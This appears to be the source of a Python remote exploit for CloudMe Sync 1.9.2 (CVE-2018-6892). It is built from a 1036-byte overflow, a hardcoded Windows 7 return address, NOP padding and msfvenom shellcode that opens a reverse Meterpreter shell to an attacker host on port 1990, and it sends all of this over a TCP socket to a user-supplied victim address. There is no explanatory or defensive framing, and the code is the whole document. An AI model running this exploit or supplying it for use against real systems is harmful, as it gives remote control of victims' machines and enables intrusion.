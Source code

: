 EXP
---

    #!/usr/bin/python
    # CloudMe Sync 1.9.2 Remote Exploit
    # Written by r00tpgp @ http://www.r00tpgp.com
    # Usage: python CloudMe-1.9.2-Exploit.py <victim-ip> <port>
    # Spawns reverse meterpreter LHOST=192.168.0.68 LPORT=1990
    # CVE: CVE-2018-6892
    # CloudMe Installer: https://org.cloudme.com/en/sync
    # Tested on Windows 7 32b SP1

    import sys, socket, time

    host = sys.argv[1] # Recieve IP from user
    port = int(sys.argv[2]) # Recieve Port from user

    # msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.162 LPORT=1990 -f python -b '"\x00\x0a\x0d'
    # No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    # No Arch selected, selecting Arch: x86 from the payload
    # Found 10 compatible encoders
    # Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
    # x86/shikata_ga_nai succeeded with size 360 (iteration=0)
    # x86/shikata_ga_nai chosen with final size 360
    # Payload size: 360 bytes
    # Final size of python file: 1730 bytes
    buf =  ""
    buf += "\xbd\xb6\xb3\x2c\xc1\xdb\xdd\xd9\x74\x24\xf4\x58\x2b"
    buf += "\xc9\xb1\x54\x83\xe8\xfc\x31\x68\x0f\x03\x68\xb9\x51"
    buf += "\xd9\x3d\x2d\x17\x22\xbe\xad\x78\xaa\x5b\x9c\xb8\xc8"
    buf += "\x28\x8e\x08\x9a\x7d\x22\xe2\xce\x95\xb1\x86\xc6\x9a"
    buf += "\x72\x2c\x31\x94\x83\x1d\x01\xb7\x07\x5c\x56\x17\x36"
    buf += "\xaf\xab\x56\x7f\xd2\x46\x0a\x28\x98\xf5\xbb\x5d\xd4"
    buf += "\xc5\x30\x2d\xf8\x4d\xa4\xe5\xfb\x7c\x7b\x7e\xa2\x5e"
    buf += "\x7d\x53\xde\xd6\x65\xb0\xdb\xa1\x1e\x02\x97\x33\xf7"
    buf += "\x5b\x58\x9f\x36\x54\xab\xe1\x7f\x52\x54\x94\x89\xa1"
    buf += "\xe9\xaf\x4d\xd8\x35\x25\x56\x7a\xbd\x9d\xb2\x7b\x12"
    buf += "\x7b\x30\x77\xdf\x0f\x1e\x9b\xde\xdc\x14\xa7\x6b\xe3"
    buf += "\xfa\x2e\x2f\xc0\xde\x6b\xeb\x69\x46\xd1\x5a\x95\x98"
    buf += "\xba\x03\x33\xd2\x56\x57\x4e\xb9\x3e\x94\x63\x42\xbe"
    buf += "\xb2\xf4\x31\x8c\x1d\xaf\xdd\xbc\xd6\x69\x19\xc3\xcc"
    buf += "\xce\xb5\x3a\xef\x2e\x9f\xf8\xbb\x7e\xb7\x29\xc4\x14"
    buf += "\x47\xd6\x11\x80\x4d\x40\x5a\xfd\x52\x32\x32\xfc\x52"
    buf += "\x35\x05\x89\xb5\x69\xd9\xda\x69\xc9\x89\x9a\xd9\xa1"
    buf += "\xc3\x14\x05\xd1\xeb\xfe\x2e\x7b\x04\x57\x06\x13\xbd"
    buf += "\xf2\xdc\x82\x42\x29\x99\x84\xc9\xd8\x5d\x4a\x3a\xa8"
    buf += "\x4d\xba\x5b\x52\x8e\x3a\xf6\x52\xe4\x3e\x50\x04\x90"
    buf += "\x3c\x85\x62\x3f\xbf\xe0\xf0\x38\x3f\x75\xc1\x33\x09"
    buf += "\xe3\x6d\x2c\x75\xe3\x6d\xac\x23\x69\x6e\xc4\x93\xc9"
    buf += "\x3d\xf1\xdc\xc7\x51\xaa\x48\xe8\x03\x1e\xdb\x80\xa9"
    buf += "\x79\x2b\x0f\x51\xac\x28\x48\xad\x32\x0c\xf1\xc6\xcc"
    buf += "\x10\x01\x17\xa7\x90\x51\x7f\x3c\xbf\x5e\x4f\xbd\x6a"
    buf += "\x37\xc7\x34\xfa\xf5\x76\x48\xd7\x58\x27\x49\xdb\x40"
    buf += "\x3e\xc4\x1c\x77\x3f\x26\x21\xa1\x06\x5c\x62\x71\x3d"
    buf += "\x6f\xd9\xd4\x14\xfa\x21\x4a\x66\x2f";

    # Return Address for Windows 7 32b SP1
    ret = '\x25\xDF\xB8\x68'

    # NOP Padding
    nop = '\x90'*20

    # EIP Writing Pattern
    pattern = "A"*1036 + ret + nop + buf # Our exploit together. Junk -> Return Address -> NOPS -> Shellcode
    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # Declare a TCP socket
    client.connect((host, port)) # Connect to user supplied port and IP address
    client.send(pattern) # Send the user command with a variable length name
    client.close() # Close the Connection